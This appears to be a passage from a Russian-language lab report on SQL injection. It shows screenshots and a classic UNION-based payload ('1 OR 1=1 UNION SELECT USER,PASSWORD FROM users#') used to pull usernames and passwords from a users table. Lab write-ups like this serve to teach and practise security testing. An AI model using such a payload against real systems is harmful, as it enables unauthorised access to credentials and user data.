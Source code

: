 ![Реакция на подмену](image/05.png){ #fig:005 width=70% height=70% }

Попробуем получить данные пользователей из таблицы users.

```sql
1 OR 1=1 UNION SELECT USER,PASSWORD FROM users#
```

![Подмена запроса](image/06.png){ #fig:006 width=70% height=70% }
